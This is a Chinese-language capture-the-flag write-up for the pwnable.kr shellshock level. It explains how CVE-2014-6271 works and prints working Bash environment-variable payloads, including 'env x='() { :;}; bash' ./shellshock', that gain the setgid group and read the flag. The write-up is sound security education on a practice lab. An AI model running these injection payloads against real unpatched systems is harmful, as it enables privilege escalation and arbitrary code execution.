

本关主要是考察shellshock漏洞。

`ssh shellshock@pwnable.kr -p2222`登陆后看一下权限：

```bash
shellshock@ubuntu:~$ ls -al
total 980
drwxr-x---  5 root shellshock       4096 Oct 23  2016 .
drwxr-xr-x 92 root root             4096 Aug 12 10:28 ..
d---------  2 root root             4096 Oct 12  2014 .bash_history
dr-xr-xr-x  2 root root             4096 Oct 12  2014 .irssi
drwxr-xr-x  2 root root             4096 Oct 23  2016 .pwntools-cache
-r-xr-xr-x  1 root shellshock     959120 Oct 12  2014 bash
-r--r-----  1 root shellshock_pwn     47 Oct 12  2014 flag
-r-xr-sr-x  1 root shellshock_pwn   8547 Oct 12  2014 shellshock
-r--r--r--  1 root root              188 Oct 12  2014 shellshock.c
shellshock@ubuntu:~$ id
uid=1019(shellshock) gid=1019(shellshock) groups=1019(shellshock)
```

我们当前id是shellshock，目标flag需要shellshock_pwn用户才可以读。我们可以执行shellshock程序，由于group中的s位，该程序在执行时具备shellshock_pwn用户组的权限。因此最终的目标是控制shellshock去读取flag。

源程序比较简短，直接看源码吧。

```c
#include <stdio.h>
int main(){
	setresuid(getegid(), getegid(), getegid());
	setresgid(getegid(), getegid(), getegid());
	system("/home/shellshock/bash -c 'echo shock_me'");
	return 0;
}
```

程序调用getegid获取当前group的id，setresuid会设置程序的 the  real user ID, the effective user ID, and the saved set-user-ID ，总之就是变成shellshock_pwn啦。（linux这些ID其实我很迷，暂时没搞的很清楚，已加入todolist）。之后调用存在漏洞的bash(version 4.2.25)去执行。


### shellshock

shellshock漏洞于2014年9月24日披露，CVE-2014-6271。payload：

```bash
env x='() { :;}; echo vulnerable' bash -c "echo this is a test "
```

漏洞原理：

 1. 环境变量的值以()开头表示定义导入函数。在bash启动时，如果存在导入函数，那么这个函数就会被执行。

    ```bash
    shellshock@ubuntu:~$ env HELLO="() { /usr/bin/id; }" ./bash -c HELLO
    uid=1019(shellshock) gid=1019(shellshock) groups=1019(shellshock)
    ```

2. 调用子进程bash时候，会copy父进程的env，执行导入函数时，bash解析环境变量没有对代码和数据进行边界识别，导致任意代码执行，也就是echo vulnerable。

关于shellshock以及bash的研究其实可以更加深入的，由于最近没有这个需求加上时间关系，暂时搁置吧。详细可以参考drops文章[1]和r00tgrok[2]的文章，其实我更喜欢第二篇，因为足够底层，更加了解原理。

### exp

两个参考的exp：

```bash
shellshock@ubuntu:~$ id
uid=1019(shellshock) gid=1019(shellshock) groups=1019(shellshock)
shellshock@ubuntu:~$ env x='() { :;}; bash' ./shellshock
shellshock@ubuntu:~$ id
uid=1019(shellshock) gid=1020(shellshock_pwn) groups=1020(shellshock_pwn),1019(shellshock)
shellshock@ubuntu:~$ cat flag
only if I knew CVE-2014-6271 ten years ago..!!
shellshock@ubuntu:~$ env echo="() { cat flag; }" /home/shellshock/bash -c '/home/shellshock/shellshock'
only if I knew CVE-2014-6271 ten years ago..!!
```


## references

[1] https://drops.thinkycx.me/#!/drops/368.Shellshock%E6%BC%8F%E6%B4%9E%E5%9B%9E%E9%A1%BE%E4%B8%8E%E5%88%86%E6%9E%90%E6%B5%8B%E8%AF%95

[2] http://www.cnblogs.com/r00tgrok/p/3996134.html

